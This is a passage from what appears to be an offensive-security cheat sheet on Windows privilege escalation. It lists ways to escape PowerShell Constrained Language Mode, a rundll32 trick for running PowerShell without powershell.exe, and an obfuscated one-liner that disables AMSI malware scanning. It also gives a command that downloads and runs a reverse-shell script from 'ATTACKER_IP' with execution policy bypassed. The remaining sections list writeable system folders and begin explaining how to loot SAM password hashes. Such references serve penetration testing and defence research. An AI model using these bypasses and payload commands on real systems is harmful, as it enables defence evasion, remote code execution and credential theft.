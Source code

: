#### Powershell Constrained Mode

* Check if we are in a constrained mode: `$ExecutionContext.SessionState.LanguageMode`
* [bypass-clm - PowerShell Constrained Language Mode Bypass](https://github.com/calebstewart/bypass-clm)
* [PowerShdll - Powershell with no Powershell.exe via DLL's](https://github.com/p3nt4/PowerShdll): `rundll32.exe C:\temp\PowerShdll.dll,main`
* Other bypasses
    ```powershell
    PS > &{ whoami }
    powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')"
    ```

#### AMSI Bypass

Find more AMSI bypass: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)

```powershell
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```


### Default Writeable Folders

```powershell
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\spool\printers
C:\Windows\System32\spool\servers
C:\Windows\tracing
C:\Windows\Temp
C:\Users\Public
C:\Windows\Tasks
C:\Windows\System32\tasks
C:\Windows\SysWOW64\tasks
C:\Windows\System32\tasks_migrated\microsoft\windows\pls\system
C:\Windows\SysWOW64\tasks\microsoft\windows\pls\system
C:\Windows\debug\wia
C:\Windows\registration\crmlog
C:\Windows\System32\com\dmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\System32\fxstmp
C:\Windows\SysWOW64\fxstmp
```

## EoP - Looting for passwords

### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

